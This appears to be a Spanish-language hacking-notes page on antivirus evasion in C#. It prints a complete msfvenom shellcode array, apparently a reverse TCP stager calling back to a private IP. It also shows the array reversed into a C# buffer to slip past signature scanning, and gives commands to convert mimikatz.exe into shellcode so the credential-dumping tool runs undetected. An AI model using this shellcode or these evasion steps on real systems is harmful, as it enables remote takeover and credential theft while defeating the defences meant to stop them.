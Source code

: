 ```yaml
---
icon: star-of-david
---
```


# Otras técnicas de evasión con C

Lo que podemos hacer con el `payload` que nos proporciono `msfvenom` es darle la vuelta directamente para que asi tampoco nos lo detecte los antivirus con una pagina:

```
0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
```

Lo ponemos todo en una `onle line` y se lo pasamos a la siguiente pagina:

URL = [Reverse Byte Array Payload](https://yupana-engineering.com/online-reverse-byte-array)

Nos quedaria algo tal que asi implementado con la variable para el codigo:

```cs
byte[] buf = new byte[354] {0xd5, 0xff, 0x53, 0x00, 0x6a, 0x56, 0xa2, 0xb5, 0xf0, 0xbb, 0xc3, 0xc1, 0x75, 0xc6, 0x29, 0xc3, 0x01, 0xff, 0xff, 0xff, 0x9b, 0xe9, 0xff, 0xff, 0xff, 0x70, 0x85, 0x0f, 0x24, 0x0c, 0xff, 0x5e, 0x5e, 0xd5, 0xff, 0x61, 0x4d, 0x6e, 0x75, 0x68, 0x57, 0xd5, 0xff, 0x30, 0x0f, 0x2f, 0x0b, 0x68, 0x50, 0x00, 0x6a, 0x00, 0x00, 0x40, 0x00, 0x68, 0x58, 0x28, 0x7d, 0x00, 0xf8, 0x83, 0xd5, 0xff, 0x5f, 0xc8, 0xd9, 0x02, 0x68, 0x57, 0x53, 0x56, 0x00, 0x6a, 0x53, 0x93, 0xd5, 0xff, 0xe5, 0x53, 0xa4, 0x58, 0x68, 0x00, 0x6a, 0x56, 0x00, 0x00, 0x10, 0x00, 0x68, 0x40, 0x6a, 0x36, 0x8b, 0x36, 0x7e, 0x00, 0xf8, 0x83, 0xd5, 0xff, 0x5f, 0xc8, 0xd9, 0x02, 0x68, 0x57, 0x56, 0x04, 0x6a, 0x00, 0x6a, 0x00, 0x00, 0x00, 0x67, 0xe8, 0xec, 0x75, 0x08, 0x4e, 0xff, 0x0a, 0x74, 0xc0, 0x85, 0xd5, 0xff, 0x61, 0x74, 0xa5, 0x99, 0x68, 0x57, 0x56, 0x10, 0x6a, 0x97, 0xd5, 0xff, 0xe0, 0xdf, 0x0f, 0xea, 0x68, 0x50, 0x40, 0x50, 0x40, 0x50, 0x50, 0x50, 0x50, 0xe6, 0x89, 0x61, 0x1e, 0x00, 0x02, 0x68, 0xcd, 0x05, 0xa8, 0xc0, 0x68, 0x0a, 0x6a, 0xd5, 0xff, 0x00, 0x6b, 0x80, 0x29, 0x68, 0x50, 0x54, 0xc4, 0x29, 0x00, 0x00, 0x01, 0x90, 0xb8, 0xd0, 0xff, 0xe8, 0x89, 0x07, 0x26, 0x77, 0x4c, 0x68, 0x54, 0x5f, 0x32, 0x73, 0x77, 0x68, 0x00, 0x00, 0x32, 0x33, 0x68, 0x5d, 0xff, 0xff, 0xff, 0x80, 0xe9, 0x12, 0x8b, 0x5a, 0x5f, 0x58, 0xe0, 0xff, 0x51, 0x5a, 0x59, 0x61, 0x5b, 0x5b, 0x24, 0x24, 0x44, 0x89, 0xd0, 0x01, 0x8b, 0x04, 0x8b, 0xd3, 0x01, 0x1c, 0x58, 0x8b, 0x4b, 0x0c, 0x8b, 0x66, 0xd3, 0x01, 0x24, 0x58, 0x8b, 0x58, 0xe0, 0x75, 0x24, 0x7d, 0x3b, 0xf8, 0x7d, 0x03, 0xf4, 0x75, 0xe0, 0x38, 0xc7, 0x01, 0x0d, 0xcf, 0xc1, 0xac, 0xc0, 0x31, 0xd6, 0x01, 0x8b, 0x34, 0x8b, 0xff, 0x31, 0x49, 0x3c, 0x74, 0xc9, 0x85, 0xd3, 0x01, 0x50, 0x20, 0x58, 0x8b, 0x18, 0x48, 0x8b, 0xd0, 0x01, 0x4c, 0x74, 0xc0, 0x85, 0x78, 0x40, 0x8b, 0xd0, 0x01, 0x3c, 0x42, 0x8b, 0x10, 0x52, 0x8b, 0x57, 0x52, 0xef, 0x75, 0x49, 0xc7, 0x01, 0x0d, 0xcf, 0xc1, 0x20, 0x2c, 0x02, 0x7c, 0x61, 0x3c, 0xac, 0xc0, 0x31, 0x28, 0x72, 0x8b, 0xff, 0x31, 0x26, 0x4a, 0xb7, 0x0f, 0x14, 0x52, 0x8b, 0x0c, 0x52, 0x8b, 0x30, 0x52, 0x8b, 0x64, 0xe5, 0x89, 0xd2, 0x31, 0x60, 0x00, 0x00, 0x00, 0x8f, 0xe8, 0xfc};
```

Tambien tenemos otra herramienta en la que podemos realizar una `shell` sin que el antivirus lo detecte en el siguiente repositorio:

URL = [Exe2shell GitHub](https://github.com/daVinci13/Exe2shell)

Nos tendremos que clonar el repositorio de `GitHub` de la siguiente forma:

```shell
git clone https://github.com/daVinci13/Exe2shell.git
cd Exe2shell/
```

Si yo por ejemplo quiero utilizar la misma tecnica de `C#` pero para evadir la deteccion de la herramienta `mimikatz` podremos realizar lo siguiente, donde este el ejecutable `mimikatz` copiaremos el `.py` de la siguiente forma:

```shell
cp exe2shell.py ../
```

Lo que hace ese `.py` es que me transforma en un `shellcode` el binario `mimikatz.exe` para que luego pueda insertarlo en mi binario que he creado y se pueda ejecutar el `mimikatz.exe` sin ningun problema `bypasseando` la firma del binario.

```shell
python3 exe2shell.py mimikatz.exe > shell.txt
```

Con esto nos generara todos los `bytes` del `mimikatz` para que pueda ser ejecutado, y ya con esto podriamos convertirlo a un `string` como hicimos anteriormente para que se pueda ejecutar sin ningun problema y realizar las modificaciones necesarias como hicimos anteriormente.

Hay una pagina muy buena que explica todo esto de evasion de antivirus de muchisimas formas diferentes que es la siguiente:

URL = [Bypassing avs by csharp Pagina](https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/index.htm?page=Chapter%2013.html)

En esta pagina como ya comente engloba todo lo que podemos realizar con este `C#` para `Bypassear` practicamente casi cualquier antivirus o herramientas de seguridad y hacer lo que queramos dentro de un equipo.

